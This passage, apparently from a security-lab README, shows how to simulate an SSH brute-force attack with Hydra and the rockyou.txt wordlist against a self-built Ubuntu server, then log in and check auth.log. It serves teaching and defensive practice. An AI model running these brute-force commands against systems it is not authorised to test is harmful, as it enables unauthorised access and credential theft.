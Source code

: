     - <username> is the user created earlier.
        
    - <server-ip> is the IP address of the Ubuntu server.
        
    - If successful, you should gain access to the server remotely.

![](/Screenshots/ssh_pics/sshCon.png)

## **3. Brute Force Attack Simulation Using Hydra**

### **3.1 Understanding SSH Brute Force Attacks**

Brute force attacks involve systematically trying different password combinations to gain unauthorized access to a system. Hydra is a powerful tool that automates this process against SSH.

### **3.2 Installing and Configuring Hydra**

1. Install Hydra:
    
    ```
    sudo apt install hydra -y
    ```

### **3.3 Executing the Brute Force Attack**

1. Run Hydra to attempt SSH login:
    
    ```
    hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<server-ip>
    ```
    
    - -l <username> specifies the target username.
        
    - -P /usr/share/wordlists/rockyou.txt points to the password list.
        
    - ssh://<server-ip> targets the SSH server.
    
2. If the password is in rockyou.txt, Hydra will successfully crack it and display the credentials.

![](/Screenshots/ssh_pics/hydra.png)

### **3.4 Gaining Access and Analyzing Results**

1. Once Hydra finds the correct password, log in:
    
    ```
    ssh <username>@<server-ip>
    ```
    
    - Use the cracked password to gain access.
    
2. Review system logs:
    
    ```
    sudo tail /var/log/auth.log
    ```
